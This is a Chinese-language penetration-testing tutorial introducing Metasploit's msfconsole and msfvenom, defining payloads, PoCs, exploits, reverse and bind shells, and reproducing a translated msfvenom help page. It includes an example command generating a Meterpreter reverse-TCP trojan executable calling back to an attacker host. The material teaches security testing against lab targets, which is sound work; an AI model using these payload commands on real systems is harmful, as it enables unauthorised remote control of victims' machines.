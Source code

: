 msfconsole是Metasploit中的一个重要模块，甚至可以说它就是Met中最精华的模块之一，上面是msf启动后的样子

启动命令就是 `msfconsole`

这次我们将用这个模块渗透攻击两个靶机，除了漏洞使用外还有木马生成，漏洞分别是ms17-010与cve2019-0708都是相对有名的漏洞，我们将用它来熟悉msf的基础

以下是这次会涉及的内容

* msfvenom木马生成
* msfconsole中的poc与exp的使用
* 反弹shell与直连shell

ok 开始吧

先来点简单的——一些基础名词

* **payload[有效载荷]**

  有效载荷又叫做payload一般指的就是通过漏洞或某种手段交付到目标系统的恶意代码，恶意代码可以各式各样，窃取信息，恶意代理，shellcode，宽泛点说只要是获取了他不该获取的信息都可以称之为“恶意代码"
* **poc[概念验证]**

  POC 是 "Proof of Concept"（概念验证）的缩写。在安全领域一般为漏洞的概念验证，他的存在是为了为某个漏洞提供足够的证据，有时候可靠的poc也可被改造为漏洞的扫描工具
* **exp[漏洞利用]**

  "Exp" 是 "exploit" 的缩写，指的是漏洞利用（Exploitation）的手段或工具。他是一种通过系统，软件漏洞来获得系统控制权的方式，一般而言一个exp有三个要素，漏洞，payload，利用方式。
* **Reverse Shell［反弹shell］**

  反弹shell，目标通过自身网络返回攻击者的设备，并建立一个交互式shell。这样的特性使得他常常出现于被攻击设备位于NAT后的情况。
* **Bind Shell [直连shell]**

  直连shell，被攻击的设备将系统连接到自身ip与特定端口，建立交互shell，攻击者通过连接获得系统的控制权，类似的ssh就是一种直连shell。这样的特性使得他通常出现于攻击者位于NAT后的情况。

理解了这些我们就可以正式的来生成一个木马

## msfvenom木马生成

这个是msfvenom翻译后的help页

```shell
MsfVenom - Metasploit 独立负载生成器。
也是 msfpayload 和 msfencode 的替代品。
用法：/opt/metasploit/msfvenom [选项] <var=val>
示例：/opt/metasploit/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o Payload.exe

选项：
     -l, --list <type> 列出 [type] 的所有模块。 类型有：有效负载、编码器、nops、平台、拱门、加密、格式、所有
     -p, --payload <payload> 要使用的有效负载（--list 要列出的有效负载，--list-options 用于参数）。 为自定义指定“-”或 STDIN
         --list-options 列出 --payload <value> 的标准、高级和规避选项
     -f, --format <格式> 输出格式（使用--list 格式列出）
     -e, --encoder <encoder> 要使用的编码器（使用 --list 编码器列出）
         --service-name <value> 生成服务二进制文件时使用的服务名称
         --sec-name <值> 生成大型 Windows 二进制文件时使用的新节名称。 默认值：随机 4 字符字母字符串
         --smallest 使用所有可用的编码器生成尽可能小的有效负载
         --encrypt <value> 应用于 shellcode 的加密或编码类型（使用 --list encrypt 列出）
         --encrypt-key <值> 用于--encrypt 的密钥
         --encrypt-iv <value> --encrypt 的初始化向量
     -a, --arch <arch> 用于 --payload 和 --encoders 的架构（使用 --list archs 列出）
         --platform <platform> --payload 的平台（使用 --list platform 列出）
     -o, --out <path> 将有效负载保存到文件中
     -b, --bad-chars <list> 要避免的字符示例：'\x00\xff'
     -n, --nopsled <length> 在有效负载上添加 [length] 大小的 nopsled
         --pad-nops 使用 -n <length> 指定的 nopsled 大小作为总有效负载大小，自动预先添加数量的 nopsled（nops 减去有效负载长度）
     -s, --space <length> 结果有效负载的最大大小
         --encoder-space <length> 编码有效负载的最大大小（默认为 -s 值）
     -i, --iterations <count> 对有效负载进行编码的次数
     -c, --add-code <path> 指定要包含的附加 win32 shellcode 文件
     -x, --template <path> 指定用作模板的自定义可执行文件
```